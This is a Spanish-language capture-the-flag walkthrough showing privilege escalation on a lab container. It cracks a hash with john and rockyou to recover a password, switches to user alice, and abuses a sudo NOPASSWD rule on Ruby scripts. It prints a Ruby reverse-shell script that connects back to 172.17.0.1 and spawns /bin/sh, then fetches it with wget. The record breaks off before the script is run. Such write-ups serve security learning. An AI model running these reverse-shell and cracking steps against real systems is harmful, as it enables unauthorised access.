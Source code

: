 Tenemos una posible contrasena, Asi que usaremos **john** para **crackearla**
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Tenemos la password
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
tinkerbell       (?)
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:

```bash
# Comando para escalar al usuario: ( alice )
su alice # ( tinkerbell )
```

###### Usuario `[ alice ]`:
Listando los privilegios para este usuario:
```bash
User alice may run the following commands on 685da950ef26:
    (ALL : ALL) NOPASSWD: /home/alice/scripts/*.rb
```

Revisando la carpta **scripts** no exoste ningun archivo con esa extension asi que crearemos uno
```bash
nano /home/alice/scripts/exploit.rb
```

No tenemos el editor **nano** asi que lo aremos de la siguiente manera:
Nos descargamos este desde internet.
```bash
git clone https://gist.github.com/gr33n7007h/c8cba38c5a4a59905f62233b36882325
```

El script contiene esta instruccion:
```rb
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 444, '172.17.0.1'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```

Ahora este lo transferimos a la maquina victima:
```bash
wget http://172.17.0.1/rshell.rb
```
